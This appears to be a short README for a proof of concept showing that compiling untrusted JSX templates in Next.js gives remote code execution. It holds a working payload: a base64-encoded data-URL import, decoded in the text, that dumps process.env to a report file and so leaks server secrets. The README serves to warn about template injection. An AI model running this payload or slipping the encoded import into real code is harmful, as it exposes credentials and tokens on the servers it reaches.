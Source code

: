 # PoC: Next.js x Untrusted User Template Compilation

You should not compile Untrusted User Template(JSX/React Component), because it will cause Remote Code Execution.

> Search Word: Server Side Template Injection

## Code

```js
export default function Home() {
    import('data:text/javascript;charset=utf-8;base64,cHJvY2Vzcy5yZXBvcnQud3JpdGVSZXBvcnQoInRlc3QiLCBuZXcgRXJyb3IoSlNPTi5zdHJpbmdpZnkocHJvY2Vzcy5lbnYpKSk7IGV4cG9ydCBkZWZhdWx0IDE7').then(r => {
        console.log(r)
    });
    return <></>
}
```

Raw:

```js
process.report.writeReport("test", new Error(JSON.stringify(process.env))); export default 1;
```

1. Stringify `process.env`
2. Write the env to `test` file

It will leak your server environment as a file. 

## Dev

    yarn install
    yarn static-build


## Related

- [[クライアントサイド〜サーバーサイド] テンプレートエンジンでのセキュリティ的な問題や考え方 | Web Scratch](https://efcl.info/2019/12/27/template-engine-security/)
